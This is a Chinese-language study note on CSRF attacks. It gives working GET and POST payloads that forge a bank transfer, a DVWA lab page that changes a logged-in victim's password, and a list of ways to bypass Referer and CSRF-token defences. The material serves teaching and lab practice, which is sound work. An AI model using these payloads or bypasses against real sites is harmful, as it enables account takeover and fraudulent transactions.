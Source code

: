 # CSRF漏洞

写的很详细的一篇文章：[CSRF入门及靶场实战](https://www.freebuf.com/articles/web/341591.html)

## CSRF漏洞利用

### CSRF简介

CSRF(Cross-Site Request Forgery)跨站请求伪造，也称为One Click Attack或者Session Riding。听起来像跨站脚本(XSS)但是二者并不同，XSS是利用站点内的信任用户，而CSRF则通过伪装成受信任用户请求受信任的网站。

### CSRF攻击原理和类型

原理如下图：

![CSRF攻击原理](./csrf_fig/csrf-figure.jpg)

类型根据伪造的请求的类型分为GET和POST两种，如下：

- `<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>`

- 
```html
<html>
    <head>
        <script type="text/javascript">
            function steal()
            {
                iframe = document.frames["steal"];
                iframe.document.Submit("transfer");
            }
        </script>
    </head>

    <body onload="steal()">
        <iframe name="steal" display="none">
            <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
                <input type="hidden" name="toBankId" value="11">
                <input type="hidden" name="money" value="1000">
            </form>
        </iframe>
    </body>
</html>
```

参考：[浅谈CSRF攻击方式](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

## CSRF实例与进阶

### CSRF例子

以靶场[DVWA](https://github.com/digininja/DVWA/blob/master/README.zh.md)为例。

这里仅记录一种情况，具体可以查看参考资料。

**medium level**

先模拟受害者登录DVWA，然后设置安全系数为medium。

![DVWA配置](./csrf_fig/dvwa-medium-1.png)

当受害者gordonb在登录了DVWA的情况下，引诱其访问构造的`hack.html`文件如下：

```html
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
<img src="http://localhost:8080/vulnerabilities/csrf/?password_new=666&password_conf=666&Change=Change#" alt="">
<img src="1.png">
</body>
</html>
```

则其密码就会被改成上面url中的密码。

level high 增加了`user_token`验证。

由于现在浏览器不允许跨站解析，所以无法直接通过构造一个html页面来盗取其`user_token`除非能把恶意网页部署在与网址同一个服务器上。网上许多博客采用借用XSS漏洞来盗取`user_token`的方式 $^{[1]}$ ，但是在实际上也很难做到，只能说理论上可行。还有做法是利用BurpSuite的CSRF Token Tracker绕过验证插件 $^{[2],[3]}$ 。

参考：
- [1] [\[超详细DVWA-CSRF全等级通关教程\]都是干货，你确定不看看？](https://cloud.tencent.com/developer/article/1825357)
- [2] [DVWA-CSRF全通关（图文详解+源码解析）](https://blog.csdn.net/weixin_46709219/article/details/109325123)
- [3] [DVWA 靶场 CSRF 通关解析](https://blog.csdn.net/2302_82189125/article/details/138537008)

### CSRF防护绕过

1. Referer绕过：

（1）空referer绕过

（2）包含referer：若只检查是否包含网址，可以新建一个以网址为名的文件、文件夹

2. CSRF-token绕过：

（1）删除令牌：删除cookie/参数中的token，免服务器验证

（2）令牌共享：创建两个账户，替换token看是否可以互相共用

（3）篡改令牌值：有时服务器只检查令牌的长度

（4）解码令牌：尝试进行md5或Base64编码

（5）修改请求方法：post改为get

（6）窃取token：重定向、XSS、web缓存欺骗、clickjacking等都有可能会导致token泄露。

参考：[跨站请求伪造（CSRF）挖掘技巧及实战案例全汇总](https://cloud.tencent.com/developer/article/1516424)
